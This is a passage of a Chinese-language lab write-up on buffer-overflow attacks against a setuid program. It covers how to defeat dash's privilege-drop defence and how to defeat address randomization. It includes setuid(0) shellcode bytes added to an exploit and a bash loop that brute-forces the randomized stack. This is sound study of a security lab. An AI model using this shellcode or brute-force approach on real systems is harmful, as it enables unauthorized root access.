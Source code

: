 dash有一个防御机制，当发现euid和真实id不一样的时候，就会放弃特权

因此攻击setuid程序的时候，一般我们会手动将/bin/sh指向别的shell。比如zsh，而这个任务要求我们在dash的情况下得到root shell

思路：

- 在Task2的shellcode最开头加上setuid(0)对应的二进制代码

首先将sh指向dash

```
sudo ln -sf /bin/dash /bin/sh
```

```c
`"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x31\xdb" /* Line 2: xorl %ebx,%ebx */
"\xb0\xd5" /* Line 3: movb $0xd5,%al */
"\xcd\x80" /* Line 4: int $0x80 */
```

将上面的代码加到shellcode之后，重新编译exploit.c，运行exploit，可以得到#，但是如果不加上面代码，则只能得到$，与预计相符合

# Task 4: Defeating Address Randomization

ASLR：

- 在32位 Linux 机器上，堆栈只有19位的熵
- 这意味着堆栈基地址可以有219 = 524,288种可能性

打开地址随机化：

```shell
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

使用以下 shell 脚本在无限循环中运行易受攻击的程序。如果攻击成功，脚本将停止; 否则，脚本将继续运行

- 本质上这个脚本其实就是不断的运行stack，核心代码只有./stack这一句
- 别的代码都是计时用的
- 命名为attach.sh，然后chmod +x 赋予执行权限，./attack运行脚本

```shell
#!/bin/bash
SECONDS=0

value=0
while [ 1 ]
do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min=$(($duration / 60))
    sec=$(($duration % 60))
    echo "$min minutes and $sec seconds elapsed."
    echo "The program has been running $value times so far."
    ./stack
done
```
